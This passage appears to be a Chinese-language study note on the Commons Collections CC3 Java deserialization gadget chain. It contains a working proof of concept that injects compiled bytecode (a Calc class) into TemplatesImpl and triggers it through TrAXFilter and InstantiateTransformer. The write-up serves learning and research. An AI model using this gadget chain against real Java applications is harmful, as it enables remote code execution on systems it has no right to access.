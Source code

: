 ```java
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}

```

# CC3

节省时间就直接一步到位了。

寻找newTransformer的调用地点：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231206175340.png)

找到TrAXFilter，虽然它是不可序列化的，但是只要它的构造函数即可：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231206175607.png)

CC3 没有调用 `InvokerTransformer`，而是调用了一个新的类 `InstantiateTransformer`：

![image-20231206180109429](C:\Users\86158\AppData\Roaming\Typora\typora-user-images\image-20231206180109429.png)

Class为空则报错，则抛出异常；Class不为空则调用它的构造函数。

测试：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class CC3_8u71 {
    private static void setFiledValue(Object obj, String fieldName, Object fieldValue) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, fieldValue);
    }
    public static void main(String[] args) throws Exception{
        byte[] codes = Files.readAllBytes(Paths.get("E:\\研究生\\JavaSec\\code\\target\\classes\\Calc.class"));
        byte[][] _bytecodes = new byte[][] {codes};
        TemplatesImpl templates = new TemplatesImpl();
        setFiledValue(templates, "_bytecodes", _bytecodes);
        setFiledValue(templates, "_name", "whatever");
        setFiledValue(templates, "_tfactory", new TransformerFactoryImpl());

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates});
        instantiateTransformer.transform(TrAXFilter.class);
    }
}
```
